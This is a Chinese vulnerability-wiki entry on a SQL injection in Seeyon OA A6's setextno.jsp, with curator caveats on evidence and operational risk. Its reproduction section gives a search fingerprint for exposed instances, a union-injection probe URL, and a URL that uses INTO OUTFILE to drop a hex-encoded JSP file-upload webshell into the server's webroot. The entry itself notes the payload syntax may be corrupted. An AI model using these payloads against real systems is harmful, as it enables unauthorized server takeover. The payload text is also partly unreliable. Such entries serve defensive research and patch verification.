



# 致远A6 setextno.jsp SQL注入→outfile写入

## 条目说明

- 对象与具体问题：致远A6；setextno.jsp SQL注入→outfile写入
- 版本、配置及部署条件：A6；MySQL文件写权限/绝对路径/服务可执行目录
- 认证与权限前提：未说明认证
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 与短篇同user_ids入口，常量md5样本更稳，合并保留
- 明文URL空格/#未编码，浏览器会把#视为片段；必须标示意
- into outfile置子查询语法可疑且hex反斜杠有潜在转写损坏，需原始来源核
- 写Webshell前提未列，截图无法代替

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

### 漏洞描述

致远OA A6 setextno.jsp 存在sql注入漏洞，并可以通过注入写入webshell文件控制服务器

### 漏洞影响

```
致远OA A6
```

### 网络测绘

```
title="致远A8+协同管理软件.A6"
```

### 漏洞复现

访问如下Url，其中含有 union注入

```
/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(md5(1)),4#
```



查看web路径



写入文件上传木马

```
http://xxx.xxx.xxx/yyoa/ext/trafaxserver/ExtnoManage/setextno.jsp?user_ids=(99999) union all select 1,2,(select unhex('3C25696628726571756573742E676574506172616D657465722822662229213D6E756C6C29286E6577206A6176612E696F2E46696C654F757470757453747265616D286170706C69636174696F6E2E6765745265616C5061746828225C22292B726571756573742E676574506172616D65746572282266222929292E777269746528726571756573742E676574506172616D6574657228227422292E67657442797465732829293B253E')  into outfile 'D:/Program Files/UFseeyon/OA/tomcat/webapps/yyoa/test_upload.jsp'),4#
```



---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
